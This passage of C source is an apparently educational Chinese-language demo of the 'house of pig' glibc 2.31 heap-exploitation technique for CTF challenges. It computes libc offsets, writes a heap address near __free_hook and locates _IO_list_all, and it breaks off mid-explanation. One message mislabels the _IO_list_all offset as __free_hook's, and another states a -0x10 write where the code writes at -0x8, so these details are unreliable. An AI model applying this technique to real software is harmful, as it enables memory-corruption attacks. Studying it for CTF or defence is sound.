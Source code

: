 ```c
    strcpy(buffer, "\033[");
    if(effect[0] != '-'){
        strcat(buffer, effect);
        strcat(buffer, ";");
    }
    strcat(buffer, color);
    strcat(buffer, "m");
    strcat(buffer, string);
    printf("%s" STR_END, buffer);
}

int main(){
    printf_color(GREEN, UNDEFINED, "今天我们来学习一下house of pig的利用原理。\n");
    printf_color(GREEN, UNDEFINED, "house of pig在只能使用calloc进行内存分配的CTF赛题中也有用武之地。\n");
    printf_color(GREEN, UNDEFINED, "首先我们了解一下这种利用方式的基本原理。\n");
    printf_color(GREEN, UNDEFINED, "本程序运行于ubuntu 20.04, glibc版本为2.31-0ubuntu9.9。\n");
    printf_color(GREEN, UNDEFINED, "在glibc 2.31下，house of pig需要利用__free__hook。\n\n");
    printf_color(RED, HIGHLIGHT, "第一步：获取libc的加载地址及堆地址。\n");
    printf_color(GREEN, UNDEFINED, "通过puts函数获取libc加载地址，在本libc中其偏移为0x84420。\n");

    size_t puts_addr = (size_t)puts;
    size_t libc_base = puts_addr - 0x84420;
    printf_color(YELLOW, HIGHLIGHT, "libc的加载地址为：");
    printf("\033[" HIGHLIGHT ";" YELLOW "m%#zx\n" STR_END, libc_base);

    printf_color(GREEN, UNDEFINED, "然后我们通过分配一个chunk（大小为0x500）来获得一个堆地址。\n");
    size_t chunk_1 = (size_t) malloc(0x4F0) - 0x10;
    printf_color(YELLOW, HIGHLIGHT, "获得堆地址为这个chunk的起始地址：");
    printf("\033[" HIGHLIGHT ";" YELLOW "m%#zx\n\n" STR_END, chunk_1);

    printf_color(RED, HIGHLIGHT, "第二步：通过large bin attack或其他方法将__free_hook附近写上一个堆地址。\n");
    printf_color(GREEN, UNDEFINED, "为了方便起见，本程序直接对__free_hook附近地址进行修改。\n");
    printf_color(GREEN, UNDEFINED, "在实际应用中，我们要维护好这个堆地址，在后面的步骤中还会用到。\n");
    printf_color(PURPLE, HIGHLIGHT, "这里在__free_hook-0x10处写入刚才获得的堆地址。\n");

    printf_color(GREEN, UNDEFINED, "本libc中__free_hook的偏移为0x1EEE48。\n");

    size_t __free_hook = libc_base + 0x1EEE48;
    printf_color(YELLOW, HIGHLIGHT, "__free_hook的地址为：");
    printf("\033[" HIGHLIGHT ";" YELLOW "m%#zx\n" STR_END, __free_hook);

    size_t* vuln_1 = (size_t*)(__free_hook - 0x8);
    // ---------- 第一处漏洞利用 ---------- //
    *vuln_1 = chunk_1;
    // --------------------------------- //

    printf_color(BLUE, HIGHLIGHT, "第一处漏洞利用完成，已在__free_hook-0x10处写入堆地址。\n\n");

    printf_color(RED, HIGHLIGHT, "第三步：通过large bin attack或其他方法向_IO_list_all写入一个堆地址。\n");
    printf_color(GREEN, UNDEFINED, "本libc中__free_hook的偏移为0x1ED5A0。\n");

    size_t* _IO_list_all = (size_t*)(libc_base + 0x1ED5A0);

    printf_color(GREEN, UNDEFINED, "_IO_list_all中原本保存的应该是_IO_2_1_stderr_这个文件结构体实例。\n");
    printf_color(GREEN, UNDEFINED, "在程序调用exit函数时会对_IO_list_all中的FILE结构体依次进行遍历。\n");
    printf_color(GREEN, UNDEFINED, "exit函数的调用链为：exit->_IO_cleanup->_IO_flush_all_lockp。\n");
    printf_color(GREEN, UNDEFINED, "下面是_IO_flush_all_lockp的函数定义：\n\n");
    printf_color(BLUE, HIGHLIGHT, "(/libio/genops.c， line 684)\n");
    printf_color(PURPLE, HIGHLIGHT,
                 "int\n"
                 "_IO_flush_all_lockp (int do_lock)\n"
                 "{\n"
                 "  int result = 0;\n"
```